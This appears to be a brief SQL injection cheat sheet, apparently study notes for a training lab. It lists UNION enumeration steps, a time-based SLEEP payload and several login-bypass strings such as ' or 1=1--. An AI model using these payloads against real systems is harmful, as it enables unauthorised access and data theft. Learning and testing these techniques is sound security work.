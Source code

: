 ## SQLi Trick/Tips

### In-Band
1. Try using an apostrophe or quotation mark in the field first. If you receive an error message about syntax, then you have a possible SQLi vulnerability.
2. Use `1 UNION SELECT 1` to see how many columns are available in the orginal query. Keep incrementing the columns like `1 UNION 1,2`, then `1 UNION SELECT 1,2,3`, etc.
3. Now replace the last column number with a command like `group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.

### Blind
* *Authentication Bypass* - Try `' OR 1=1;--` or other always true statement.
* *Boolean-based* - Deductive reasoning by generating false values until discovering actual value.
* *Time-based* - Using SLEEP statements like `UNION SELECT SLEEP(5);--`.

### Quick login bypasses
* `admin' --`
* `admin' #`
* `admin'/*`
* `' or 1=1--`
* `' or 1=1#`
* `' or 1=1/*`
* `') or '1'='1--`
* `') or ('1'='1--`
*  Login as different user (SM*)
  `UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

More at https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
